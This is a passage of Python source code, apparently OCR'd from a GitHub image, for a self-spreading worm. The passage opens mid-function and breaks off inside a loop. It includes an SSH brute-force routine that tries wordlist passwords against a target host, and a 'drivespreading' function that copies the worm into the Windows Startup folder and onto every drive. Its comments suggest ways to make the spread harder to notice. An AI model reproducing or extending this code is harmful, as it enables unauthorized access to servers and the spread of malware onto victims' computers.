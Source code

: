         return True
    except socket.error:
        logger.error("Computer is offline or port 22 is closed")
        return False
    except paramiko.ssh_exception.AuthenticationException:
        logger.error("Wrong Password or Username")
        return False
    except paramiko.ssh_exception.SSHException:
        # socket is open, but not SSH service responded
        logger.error("No response from SSH server")
        return False


def bruteforce_ssh(host, wordlist):
    """
    Calls connect_to_ssh function and
    tries to bruteforce the target server.
    Args:
        wordlist - TXT file with passwords
    """
    # TODO:10 : Bruteforce usernames too
    file = open(wordlist, "r")
    for line in file:
        connection = connect_to_ssh(host, line)
        print(connection)
        time.sleep(5)

def drivespreading():
    # This function makes the worm copy itself on other drives on the computer
    # (also on the "startup" folder to be executed every time the computer boots)
    
    # WARNING: This function is very obvious to the user. The worm will be suddenly on every drive.
    # You may want to change the code and e.g. copy the worm only on new drives 
    bootfolder = os.path.expanduser('~') + "/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/"

    while True:
        drives = win32api.GetLogicalDriveStrings()
        drives = drives.split('\000')[:-1]
        print(drives)
        for drive in drives:
            try:
                if "C:\\" == drive:
                    copy2(__file__, bootfolder)
                else:
                    copy2(__file__, drive)
            except:
                pass
        